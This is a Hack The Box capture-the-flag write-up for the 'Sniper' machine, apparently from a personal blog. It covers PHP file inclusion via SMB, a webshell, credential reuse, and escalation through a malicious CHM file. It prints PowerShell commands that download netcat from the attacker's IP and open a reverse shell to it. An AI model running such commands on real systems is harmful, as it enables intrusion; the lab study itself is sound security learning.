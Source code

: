 ```yaml
---
title: Sniper HTB Writeup
date: '2020-03-28 17:40:00'
categories: ["htb"]
banner_img: /img/Sniper.png
---
```


tl&dr

Port 80 was the port I attacked. On other ports I had no access. Found several directories by using gobuster, but on /blog directory there was a parameter including a .php file. And I suspected for lfi(local file inclusion). 
I tried everything from [PayloadAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion).
I setup samba on my box and then I try to serve a file by using smb. At first I try a .php file which included a shell on it.
But nothing happend and the website throws a 404 page. I see the logs and see that the file was indeed accesed. I try to server a webshell this time, and It works.
Now I upload [netcat](https://eternallybored.org/misc/netcat/) and get a shell, on a writable folder I previously find by using `dir /Q`. At wwroot folder of the webserver I get some credentials.
I verify if these credentials work by using smbclient. I had to use the password with the user Chris. Now I need a way become that user.

```
powershell.exe -c "$user='Sniper\Chris'; $pass='36mEAhz/B8xQ~2VM'; try { Invoke-Command {cmd /c curl -o C:\Users\Chris\Desktop\nc64.exe 10.10.14.33/nc64.exe}  -ComputerName Sniper -Credential (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force)) } catch { echo $_.Exception.Message }" 2>&1
```
This will download nc to chris dektop folder. And then I get a reverse shell as chris.

```
powershell.exe -c "$user='Sniper\Chris'; $pass='36mEAhz/B8xQ~2VM'; try { Invoke-Command {cmd /c C:\Users\Chris\Desktop\nc64.exe 10.10.14.33 4444 -e cmd.exe}  -ComputerName Sniper -Credential (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force)) } catch { echo $_.Exception.Message }" 2>&1
```

Poking around the box I find a *instructions.chm* file located at Downloads folder. I get the file by copying it to my samba share, and then I install xchm to view that file.
The file tells me that a developer had enough with his boss and hopes someone will snipe his boss. Because this does not make much sense I try to find more info.
I find a folder located at C:\Docs which has a todo.txt inside of it. This time is the boss which yels at Chris about his php skills and then tells him to drop a file with the app documentation into that folder.
I use [nishang](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1) script to create a malicious chm file.
To do this I had to switch to a Windows VM and then download [HTML Help WorkShop](https://www.microsoft.com/en-us/download/details.aspx?id=21138).
The malicious script executes a reverse shell from Chris Desktop folder by using *nc.exe*. I had troubles with this part because I had to only include my instructions.chm and nothing else.
And then I get reverse shell as Administrator. 

So there is something like cron running. I try to see for scheduled jobs but I can't find the one which executes my malicious .chm file.
I enable **rdp** and after login by using rdp. I see that there was a file running which executed the malicious .chm.
But why I couldn't Had more than 3 files there?(2 file which I had no permission to delete and then 1 file which I upload).

The Script was located at `C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\sig.ps1`

And had the following content


```
1 while($true) {
2    get-process | where name -eq hh | Stop-Process -force
3    sleep 2
4    del C:\Docs\*.chm
5    sleep 20
6    Get-ChildItem "C:\Docs" -Filter *.chm | Foreach-Object {
7        $sig =  [char[]](gc $_.FullName -Encoding Byte -ReadCount 1 -TotalCount 2) -join ''
8        if($sig -eq 'IT') {
9                write "entre"
10                hh.exe $_.FullName
11        }
12        else {
13                write "boo"
14        }
15    }
16    sleep 10
17}
```

After running this script I can see that I was mistaken for having only my file at that folder. Because The script is running continuously I may had entered my file when code on line *3* was getting executed thus making me go nuts. So what this script
does..? At first this script stops every process which include the name hh then it waits 2 seconds and then deletes every file containing .chm at the end. Next It waits for 20 seconds and then It loops through every .chm file and checks if they are valid on line *7* by checking 2 byte from its header. If these bytes are equal to IT then hh.exe command is executed and
we get a shell. If not the script waits another 10 seconds and then executes again from line 2.

This box was great overall. It is also great to see how the creators are doing these boxes.

----------------------------------------
Read more:
[Chm Virus](https://www.bleepingcomputer.com/news/security/malicious-chm-files-being-used-to-install-brazilian-banking-trojans/),
[Bypass Php Remote URL Inclusion restriction](http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html) 
